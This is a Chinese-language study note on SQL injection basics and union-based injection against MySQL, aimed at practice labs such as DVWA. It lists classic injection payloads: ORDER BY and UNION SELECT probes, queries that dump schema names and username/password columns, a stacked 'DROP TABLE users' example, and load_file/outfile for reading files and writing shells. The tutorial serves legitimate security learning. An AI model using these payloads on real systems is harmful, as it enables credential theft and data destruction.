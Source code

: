 
# ✅ Day2：SQL 注入基础与回显注入实战学习笔记

> 本日学习重点：掌握 SQL 注入的基本原理、分类、常见工具使用、以及完整的回显注入利用流程。

---

## 🧠 一、SQL 注入基础知识

### 1. 漏洞原理

SQL 注入（SQL Injection）是一种通过将恶意 SQL 语句插入到输入字段中，从而操控后端数据库执行非预期操作的攻击方式。通常由于开发者拼接 SQL 语句时未对用户输入进行严格过滤，导致注入点形成。

### 2. 危害

- 获取敏感信息（如用户数据、密码等）
- 绕过身份认证
- 修改、删除数据库内容
- 写入 WebShell，控制服务器
- 持久化后门注入
- 执行系统命令（某些场景下）

### 3. SQL 注入分类（常见）

| 类型 | 描述 |
|------|------|
| 回显注入 | 结果直接显示在页面上，可快速提取数据 |
| 报错注入 | 通过构造语句抛出数据库错误信息，读取内部信息 |
| 布尔盲注 | 利用返回页面的差异判断条件真假 |
| 时间盲注 | 利用 `sleep()` 等延时函数判断条件真假 |
| 堆叠注入 | 多语句注入，如：`1;DROP TABLE users`（需数据库支持）|

---

## 🗃️ 二、MySQL 常用系统表与结构

### 1. 常用系统表（information_schema）

| 系统表 | 说明 |
|--------|------|
| `schemata` | 所有数据库名称 |
| `tables` | 所有数据表名 |
| `columns` | 所有字段名 |
| `users`（非系统）| 通常用于登录验证的信息表 |

### 2. 数据库命令行操作（MySQL CLI）

```sql
SHOW DATABASES;
USE testdb;
SHOW TABLES;
DESC users;
SELECT column_name FROM information_schema.columns WHERE table_name='users';
SELECT * FROM users;
```

---

## 🔧 三、图形化数据库管理工具

### 1. Navicat
- 本地可视化客户端，支持连接远程数据库
- 支持表结构设计、SQL 编辑、数据查询、导出导入等功能

### 2. phpMyAdmin
- Web 版数据库管理工具，常见于 Web 后台

### 3. adminer.php
- 单文件数据库管理器，上传即用，适合测试环境中使用

---

## 🕵️‍♂️ 四、回显注入（Echo-Based Injection）

### ✅ 1. 寻找注入点

- URL 参数、POST 数据、Cookie、Header 等
- 基本测试：`1'`，`1 and 1=1` vs `1 and 1=2`

### ✅ 2. 判断注入类型

- 字符型：`1' and '1'='1`
- 数字型：`1 and 1=1`

### ✅ 3. 判断字段数量

```sql
?id=1 ORDER BY N
```

### ✅ 4. 联合查询测试

```sql
?id=1 UNION SELECT 1,2,3,...
```

---

## 🧪 五、信息提取流程（information_schema）

### 当前数据库名

```sql
UNION SELECT 1,2,database()
```

### 所有数据库名

```sql
SELECT schema_name FROM information_schema.schemata
```

### 所有表名

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='数据库名'
```

### 所有字段名

```sql
SELECT column_name FROM information_schema.columns WHERE table_name='表名'
```

### 查询敏感信息

```sql
UNION SELECT 1,username,password FROM users
```

---

## 🔧 六、常用函数说明

| 函数名 | 作用 |
|--------|------|
| `version()` | 数据库版本 |
| `user()` | 当前连接数据库的用户 |
| `database()` | 当前数据库 |
| `concat()` | 字符拼接 |
| `group_concat()` | 多行合并 |
| `sleep(n)` | 延迟 |
| `load_file()` | 读取文件 |
| `outfile` | 写文件（配合写 shell）|

---

## 📝 七、学习小结

- 掌握了 SQL 注入的基本分类与利用流程
- 理解了信息架构表（information_schema）在注入中的作用
- 学会了判断注入点、类型、字段数、信息提取的完整流程
- 熟悉了 Navicat、phpMyAdmin、adminer.php 等常用数据库管理工具

---

🎯 **下一步建议：**  
- 学习报错注入与盲注技术  
- 熟练使用 sqlmap 工具自动化注入  
- 尝试实战演练，如 DVWA、bWAPP 靶场

